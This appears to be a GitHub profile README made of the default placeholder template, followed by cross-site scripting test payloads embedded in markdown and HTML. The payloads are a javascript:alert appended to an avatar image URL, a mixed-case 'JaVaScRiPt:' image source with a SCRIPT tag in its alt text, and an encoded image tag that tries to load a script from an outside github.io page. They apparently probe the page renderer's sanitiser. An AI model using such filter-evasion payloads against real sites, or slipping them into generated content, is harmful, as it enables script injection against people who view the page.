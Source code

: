 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= img/%0a%3cscript+onload=%27https:\/r89shi.github.io/teste.js%27%3e%00 >

](()
